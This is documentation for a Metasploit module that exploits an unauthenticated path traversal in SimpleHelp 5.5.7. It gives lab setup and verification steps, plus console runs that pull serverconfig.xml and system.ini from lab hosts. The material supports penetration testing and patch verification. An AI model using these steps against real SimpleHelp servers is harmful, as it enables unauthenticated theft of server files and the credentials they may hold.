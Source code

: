 ## Vulnerable Application
There exists a path traversal vulnerability in the /toolbox-resource endpoint of SimpleHelp that enables unauthenticated
remote attackers to download arbitrary files from the SimpleHelp server via crafted HTTP requests

### Setup

On Ubuntu 22.04 download the vulnerable version of SimpleHelp 5.5.7: 
`wget https://simple-help.com/releases/5.5.7/SimpleHelp-linux-amd64.tar.gz`

Unzip the application:
```
cd /opt
tar -xvf SimpleHelp-linux-amd64.tar.gz
```

And start the server:
```
cd SimpleHelp
sudo sh serverstart.sh
```

## Verification Steps

1. Start msfconsole
1. Do: `use simplehelp_toolbox_path_traversal`
1. Set the `RHOST`
1. Run the module
1. Receive the file `serverconfig.xml` from the SimpleHelp

## Scenarios
### SimpleHelp 5.5.7 running on Ubuntu 22.04
```
msf6 exploit(windows/local/cve_2024_35250_ks_driver) > use simplehelp_toolbox_path_traversal

Matching Modules
================

   #  Name                                                      Disclosure Date  Rank    Check  Description
   -  ----                                                      ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/simplehelp_toolbox_path_traversal  2025-01-12       normal  No     Simple Help Path Traversal Vulnerability


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/http/simplehelp_toolbox_path_traversal

[*] Using auxiliary/scanner/http/simplehelp_toolbox_path_traversal
msf6 auxiliary(scanner/http/simplehelp_toolbox_path_traversal) > set rhost 172.16.199.130
rhost => 172.16.199.130
msf6 auxiliary(scanner/http/simplehelp_toolbox_path_traversal) > run
[*] Reloading module...
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: 5.5.7
[+] Downloaded 5233 bytes
[+] File saved in: /Users/jheysel/.msf4/loot/20250220163655_default_172.16.199.130_simplehelp.trave_035651.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### SimpleHelp 5.5.7 running on Windows 11
```
msf6 auxiliary(scanner/http/simplehelp_toolbox_path_traversal) > set rhosts 172.16.199.131
rhosts => 172.16.199.131
msf6 auxiliary(scanner/http/simplehelp_toolbox_path_traversal) > set filepath windows/system.ini
filepath => windows/system.ini
msf6 auxiliary(scanner/http/simplehelp_toolbox_path_traversal) > set depth 4
depth => 4
msf6 auxiliary(scanner/http/simplehelp_toolbox_path_traversal) > run
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: 5.5.7
[+] Downloaded 219 bytes
[+] File saved in: /Users/jheysel/.msf4/loot/20250221075039_default_172.16.199.131_simplehelp.trave_820456.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/simplehelp_toolbox_path_traversal) > cat /Users/jheysel/.msf4/loot/20250221075039_default_172.16.199.131_simplehelp.trave_820456.txt
[*] exec: cat /Users/jheysel/.msf4/loot/20250221075039_default_172.16.199.131_simplehelp.trave_820456.txt

; for 16-bit app support
[386Enh]
woafont=dosapp.fon
EGA80WOA.FON=EGA80WOA.FON
EGA40WOA.FON=EGA40WOA.FON
CGA80WOA.FON=CGA80WOA.FON
CGA40WOA.FON=CGA40WOA.FON

[drivers]
wave=mmdrv.dll
timer=timer.drv

[mci]
```
